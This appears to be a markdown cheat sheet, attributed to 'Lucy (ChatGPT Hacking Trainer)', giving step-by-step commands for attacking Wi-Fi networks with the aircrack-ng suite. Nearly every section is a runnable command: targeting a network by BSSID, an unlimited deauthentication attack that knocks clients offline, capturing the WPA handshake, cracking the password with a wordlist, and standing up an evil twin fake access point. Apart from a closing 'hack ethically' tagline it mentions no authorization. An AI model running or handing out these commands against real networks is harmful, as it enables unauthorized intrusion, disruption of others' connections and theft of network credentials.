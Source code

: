# 🔓 Wi-Fi Hacking Full Guide – By Lucy (ChatGPT Hacking Trainer)

> 🎯 Interface: `wlan0`
> 📦 Tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, `airbase-ng`, `wireshark`

---

## 🧪 1. Enable Monitor Mode

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
# Optional rename
sudo ip link set wlan0 name wlan0mon
```

---

## 📡 2. Scan Wi-Fi Networks (New Terminal)

```bash
sudo airodump-ng wlan0mon
```

📜 Note down:

* BSSID → e.g., `AA:A9:15:07:DF:0C`
* Channel → e.g., `6`

---

## 🎯 3. Focus Target Network (New Terminal)

```bash
sudo airodump-ng -w hack1 -c 6 --bssid AA:A9:15:07:DF:0C wlan0mon
```

Keep this running to capture the handshake.

---

## 💣 4. Deauthentication Attack (New Terminal)

```bash
sudo aireplay-ng --deauth 0 -a AA:A9:15:07:DF:0C wlan0mon
```
Sends  unlimited disconnect packets to force reauthentication.
useing 0
```bash
sudo aireplay-ng --deauth 10 -a AA:A9:15:07:DF:0C wlan0mon
```

Sends 10 disconnect packets to force reauthentication.

---

## 🔍 5. Verify Handshake in Wireshark (Optional)

```bash
wireshark hack1-01.cap
```

🔎 Use filter: `eapol`
✅ If shown → handshake captured.

---

## 🔓 6. Crack Wi-Fi Password

```bash
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```

✔️ If password is found, it will display: `KEY FOUND`.

---

## 🧪 Dongle Testing Commands

```bash
sudo iwconfig wlan0 mode monitor         # Monitor Mode
sudo aireplay-ng --test wlan0           # Injection Test
sudo airodump-ng --band a wlan0         # 5 GHz scan
sudo airodump-ng --band bg wlan0        # 2.4 GHz scan
sudo airodump-ng wlan0                  # All bands
```

---

## 🚁 Evil Twin / Fake Access Point

```bash
sudo airbase-ng -a 00:01:02:03:04:05 --essid "Tarun Papa" -c 11 wlan0
```

Use monitor mode dongle to create fake AP.

---

## 🔃 Mode Switch (if needed)

```bash
sudo iwconfig wlan0 mode monitor  # Enable monitor
sudo iwconfig wlan0 mode managed  # Return to normal
```

---

## 🛂 Tested Wi-Fi Dongles – Support Table

| Model            | Chipset          | Monitor | Injection  | AP Mode | Evil Twin | Notes                          |
| ---------------- | ---------------- | ------- | ---------- | ------- | --------- | ------------------------------ |
| Alfa AWUS036NHA  | Atheros AR9271   | ✅       | ✅          | ✅       | ✅         | Most stable, widely supported  |
| Alfa AWUS036ACH  | RTL8812AU        | ✅       | ✅ (driver) | ✅       | ✅         | Dual-band, driver needed       |
| TL-WN722N v1     | Atheros AR9271   | ✅       | ✅          | ✅       | ✅         | Only v1 supports monitor mode  |
| Panda PAU06      | Ralink RT5372    | ✅       | ✅          | ✅       | ✅         | Plug & play                    |
| BrosTrend AC1200 | RTL8812BU        | ✅       | ✅ (driver) | ✅       | ✅         | Works with aircrack-ng driver  |
| TP-Link T2U Plus | RTL8821AU/8811AU | ✅       | ✅ (driver) | ✅       | ✅         | Manual driver install required |

---

## 🔧 TP-Link Archer T2U Plus Driver Installation

```bash
sudo apt update
sudo apt install dkms git build-essential
git clone https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au
sudo make dkms_install
```

👠 Load the driver:

```bash
sudo modprobe 8812au
iwconfig
```

🔬 Test injection:

```bash
sudo aireplay-ng --test wlan0
```

---

## 📟 Terminal Shortcut Cheats

| Action              | Shortcut            |
| ------------------- | ------------------- |
| New Terminal Tab    | Ctrl + Shift + T    |
| New Terminal Window | Ctrl + Alt + T      |
| Kill Process        | Ctrl + C            |
| Scroll Output       | Shift + PageUp/Down |

---

## 📌 Quick Command Sheet

| Task            | Command Example                                                       |
| --------------- | --------------------------------------------------------------------- |
| Monitor Mode    | `sudo airmon-ng start wlan0`                                          |
| Scan Networks   | `sudo airodump-ng wlan0mon`                                           |
| Focus Network   | `sudo airodump-ng -w hack1 -c 6 --bssid AA:A9:15:07:DF:0C wlan0mon`   |
| Deauth Clients  | `sudo aireplay-ng --deauth 10 -a AA:A9:15:07:DF:0C wlan0mon`          |
| Crack Password  | `aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`        |
| Fake AP         | `sudo airbase-ng -a 00:01:02:03:04:05 --essid "FakeName" -c 11 wlan0` |
| Check Handshake | `wireshark hack1-01.cap` → filter: `eapol`                            |

---

✅ *Guide by Lucy – Your Ethical Hacking Trainer*
🧠 *Learn • Practice • Hack Ethically*
